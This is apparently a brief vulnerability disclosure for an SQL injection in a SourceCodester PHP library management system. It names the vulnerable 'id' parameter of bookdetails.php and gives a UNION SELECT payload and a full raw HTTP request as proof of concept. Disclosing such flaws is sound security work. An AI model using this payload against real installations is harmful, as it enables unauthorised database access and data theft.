 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/student/bookdetails.php?id=

Vulnerability location: /LMS/student/bookdetails.php?id=, id

[+] Payload: /LMS/student/bookdetails.php?id=-191%27%20union%20select%201,2,3,4,5,6,7,8,9,10- // Leak place ---> id

```sql
GET /LMS/student/bookdetails.php?id=-191%27%20union%20select%201,2,3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180441373-6a534492-0498-4813-93cd-1c467f6e0ca6.png)

